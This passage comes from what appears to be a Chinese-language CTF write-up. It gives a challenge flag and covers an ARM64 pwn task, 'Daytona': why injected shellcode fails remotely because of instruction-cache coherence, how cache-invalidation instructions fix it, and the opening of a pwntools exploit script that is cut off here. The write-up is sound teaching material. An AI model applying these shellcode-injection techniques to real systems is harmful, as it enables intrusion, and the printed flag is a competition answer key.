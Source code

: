 ```python
if __name__ == "__main__":
    main()
```

### Flag

:spoiler[`sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}`]

## Daytona

### Information

- Category: Pwn
- Points: 100

### Description

> Cops don't like it when you drive like you're in the Daytona 500 :/

### Write-up

<s>_这可是我的第一次。_</s>

bro 第一次做（成） arm 架构 pwn，虽然最后还是自己提供思路，让 AI 写的 shellcode……嗯，这次不算数～

一开始直接 shellcraft 打 execve，结果本地通了远程不行，后来试了下换成 ORW，还是本地可以，远程不行……最后才知道，ARM 架构的 CPU 通常有分离的数据缓存 (`D-Cache`) 和指令缓存 (`I-Cache`)，我们写入 shellcode 的而时候数据先进入 `D-Cache`，跳转到这段代码时，CPU 还是会继续从 `I-Cache` 中读取指令。如果 CPU 流水线和 `I-Cache` 中仍然存有这段内存地址上的旧代码，它就会执行错误的代码，所以我远程打不通。本地能通是因为 QEMU 通常会自动处理缓存同步问题。

解决方法是使用一个叫做 `Cache Invalidation Gadget` 的东西，手动刷新流水线：

- `dc`：清理 `D-Cache`，将新写入的 shellcode 推送到主存
- `ic + isb`：清理 `I-Cache` 和 CPU 流水线，强制 CPU 从内存中加载新写入的 shellcode，从而保证 shellcode 能够正确执行

得抽空去学一下其它架构的指令集了，不然真不行，这是我最近碰到的第二个 arm pwn 了。

### Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    asm,
    context,
    flat,
    process,
    raw_input,
    remote,
    shellcraft,
)


FILE = "./daytona"
HOST, PORT = "chal.sunshinectf.games", 25606

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        # target = process(["qemu-aarch64", "-g", "1234", FILE])
        target = process(["qemu-aarch64", FILE])
```